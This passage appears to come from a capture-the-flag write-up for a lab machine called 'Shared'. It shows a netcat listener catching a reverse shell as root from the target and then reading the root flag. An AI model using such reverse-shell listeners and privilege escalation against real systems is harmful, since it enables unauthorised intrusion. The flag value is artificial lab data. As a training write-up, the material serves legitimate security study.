 ```bash
➜  ~ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.172] 50994
bash: cannot set terminal process group (3619): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis#
```

## Root.txt

```bash
root@shared:/var/lib/redis# cat /root/root.txt
cat /root/root.txt
a5f9fb3e112adc4dd4e6650e64d240e1
```
